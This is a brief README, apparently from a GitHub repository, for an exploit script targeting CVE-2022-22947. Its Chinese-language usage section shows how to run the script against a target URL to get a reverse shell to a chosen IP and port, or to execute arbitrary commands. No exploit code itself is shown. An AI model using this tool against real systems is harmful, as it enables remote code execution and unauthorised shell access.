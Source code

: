 # CVE-2022-22947
CVE-2022-22947_EXP,CVE-2022-22947_RCE

## Usage
### 反弹shell
python3 CVE-2022-22947.py 目标网址 弹shell的IP 端口
### 执行命令
python3 CVE-2022-22947.py 目标网址 命令
